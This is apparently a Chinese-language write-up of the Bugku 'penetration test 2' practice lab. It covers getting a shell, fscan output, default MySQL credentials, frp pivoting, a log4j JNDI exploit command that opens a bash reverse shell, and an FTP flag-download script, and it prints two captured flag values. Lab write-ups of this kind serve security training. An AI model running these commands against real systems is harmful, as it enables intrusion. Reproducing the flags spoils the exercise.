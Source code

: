 ```yaml
---
title: bugku 渗透测试2渗透记录
date: 2024-07-28 13:00 +0800
categories: [SRC,渗透]
tags: [PAR,bugku]
media_subpath: /
---
```








![未命名文件](assets/未命名文件.png)







![image-20240728091958972](assets/image-20240728091958972.png)

![image-20240728092005696](assets/image-20240728092005696.png)

命令执行（这里不知道为什么burp没成功）

https://blog.csdn.net/acdcccc/article/details/132700902

![image-20240728092253236](assets/image-20240728092253236.png)

getshell使用教程公开exploit

## flag1

![image-20240728092704334](assets/image-20240728092704334.png)

上传fscan

```
192.168.0.2:3306 open
192.168.0.3:80 open
192.168.0.2:80 open
192.168.0.1:80 open
192.168.0.1:22 open
[*] WebTitle: http://192.168.0.1        code:200 len:3392   title:Harry's Blog
[*] WebTitle: http://192.168.0.2        code:200 len:3392   title:Harry's Blog
[*] WebTitle: http://192.168.0.3        code:200 len:4789   title:Bugku后台管理系统
[+] mysql:192.168.0.2:3306:root 
```



## flag2

0.1 0.2 配置一个是一样的我们localhost连接

账号密码 root:root

web配置文件也存在，只不过是cms账号

有数据库

![image-20240728093731807](assets/image-20240728093731807.png)





架上frp

![image-20240728093544837](assets/image-20240728093544837.png)

![image-20240728094242028](assets/image-20240728094242028.png)

连接成功

![image-20240728094252294](assets/image-20240728094252294.png)





0.3

![image-20240728095615124](assets/image-20240728095615124.png)

![image-20240728095704318](assets/image-20240728095704318.png)

log4j

登录会记录日志

![image-20240728095025883](assets/image-20240728095025883.png)

靶机出网



## flag3

这里是真的巧合了

flag{5fbf32731e82fefa606360f2d08d2ced}

![image-20240728095511611](assets/image-20240728095511611.png)





JNDIExploit-1.2-SNAPSHOT.jar

这个工具不行

用下面的命令

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,xxxxxxx}|{base64,-d}|{bash,-i}" -A 0.0.0.0
```



## flag4

![image-20240728101406332](assets/image-20240728101406332.png)



这里还存在一个一网段

![image-20240728101431783](assets/image-20240728101431783.png)



## flag5

![image-20240728101746549](assets/image-20240728101746549.png)





```
192.168.1.2:80 open
192.168.1.1:22 open
192.168.1.3:80 open
192.168.1.1:80 open
[*] WebTitle http://192.168.1.1        code:200 len:3392   title:Harry's Blog
[*] WebTitle http://192.168.1.2        code:200 len:4789   title:Bugku后台管理系统
[*] WebTitle http://192.168.1.3        code:200 len:524    title:乙公司Git仓库
```

继续frp

原先的一层不需要了，重新配置

![image-20240728111612802](assets/image-20240728111612802.png)



## flag6

提交克隆

https://github.com/lmzds/test2.git

![image-20240728112729981](assets/image-20240728112729981.png)

测试需要改名仓库名

每次都要 clone一下



![image-20240728114302529](assets/image-20240728114302529.png)

## flag7

![image-20240728114407637](assets/image-20240728114407637.png)



![image-20240728114427975](assets/image-20240728114427975-1722138268743-1.png)



```
10.10.0.1:22 open
10.10.0.3:21 open
10.10.0.2:80 open
10.10.0.1:80 open
[*] WebTitle: http://10.10.0.2          code:200 len:524    title:乙公司Git仓库
[*] WebTitle: http://10.10.0.1          code:200 len:3368   title:Harry's Blog
```



![image-20240728123307904](assets/image-20240728123307904.png)

提示 / 

![image-20240728123451535](assets/image-20240728123451535.png)

```python
from ftplib import FTP, error_perm


ftp = FTP('10.10.0.3')
ftp.login('guest', 'guest')

print(ftp.retrlines('LIST'))

with open('flag1.txt', 'wb') as file:
    ftp.retrbinary('RETR flag', file.write)
    
ftp.cwd('/')
print(ftp.retrlines('LIST'))
with open('flag2.txt', 'wb') as file:
    ftp.retrbinary('RETR flag', file.write)
```

## flag8

![image-20240728124023398](assets/image-20240728124023398.png)

flag{e7fe2fb22b525d0b5c67df613fabc95d}